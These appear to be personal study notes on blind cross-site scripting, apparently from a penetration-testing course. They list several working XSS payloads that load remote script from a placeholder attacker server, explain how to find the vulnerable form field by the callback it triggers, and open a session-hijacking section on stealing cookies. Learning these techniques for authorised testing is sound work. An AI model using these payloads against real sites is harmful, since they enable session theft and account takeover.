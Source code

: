 ### Loading a remote script

- in HTML, we can write to include a remote script by providing its source
```html
<script src="http://our-server-ip/script.js"></script>
```

- we can identify the vulnerable input field that executed the script as 
```html
<script src="http://our-server-ip/username"></script>
```

- if we get a request for `/username`, we know that the username field is vulnerable to XSS and so on 
- with that we can start testing various XSS payloads that load a remote script and see which of them sends us a request

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

- start testing these payloads one by one using one of them for all of input fields and appending the name of the field after our IP

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

> Note: email must match an email format, as it seems to be validated on both the front-end and back-end. Passwords fields may be skipped as they are usually hashed and not usually shown in cleartext

- once we submit the form, we wait a few seconds and check our terminal to see if anything called our server
- if nothing calls, we can proceed to next payload and so on 
- once we received a call to our server, we should note the last XSS payload we used as a working payload and note the input field name that called our server as the vulnerable input field

- try testing various remote script XSS paylaods with the remaining input fields, and see which of them sends an HTTP request to find a working payload

### Sesison Hijacking

- once we find a working XSS payload and have identified the vulnerable input field, we can proceed to XSS exploitation and perform a Session Hijacking attack
- requires
	- JS payload to send us the required data 
	- PHP script hosted on our server to grap and parse the transmitted data
- JS payload to grap session cookie (write one in script.js in our server)
